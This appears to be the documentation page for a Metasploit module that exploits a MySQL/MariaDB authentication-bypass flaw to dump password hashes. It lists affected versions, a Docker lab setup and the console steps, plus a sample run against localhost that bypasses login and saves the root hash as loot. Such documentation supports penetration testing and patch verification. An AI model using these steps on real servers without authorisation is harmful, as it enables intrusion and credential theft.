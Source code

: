 ## Description

This module exploits a password bypass vulnerability in MySQL in order
to extract the usernames and encrypted password hashes from a MySQL server.
These hashes are stored as loot for later cracking.

Impacts MySQL versions:
- 5.1.x before 5.1.63
- 5.5.x before 5.5.24
- 5.6.x before 5.6.6

And MariaDB versions:
- 5.1.x before 5.1.62
- 5.2.x before 5.2.12
- 5.3.x before 5.3.6
- 5.5.x before 5.5.23

## Environment Setup

### Docker

```
docker run -it --rm -p 3306:3306 vulhub/mysql:5.5.23
```

## Verification Steps

1. Do: `use scanner/mysql/mysql_authbypass_hashdump`
2. Do: `set RHOSTS [IP]`
3. Do: `run`

## Scenarios

```msf
msf auxiliary(scanner/mysql/mysql_authbypass_hashdump) > rerun rhost=127.0.0.1
[*] Reloading module...

[+] 127.0.0.1:3306        - 127.0.0.1:3306 The server allows logins, proceeding with bypass test
[*] 127.0.0.1:3306        - 127.0.0.1:3306 Authentication bypass is 10% complete
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Successfully bypassed authentication after 130 attempts. URI: mysql://root:Gmg@127.0.0.1:3306
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Successfully exploited the authentication bypass flaw, dumping hashes...
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Saving HashString as Loot: root:*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
[+] 127.0.0.1:3306        - 127.0.0.1:3306 Hash Table has been saved: /Users/adfoster/.msf4/loot/20230817230919_default_127.0.0.1_mysql.hashes_036424.txt
[*] 127.0.0.1:3306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
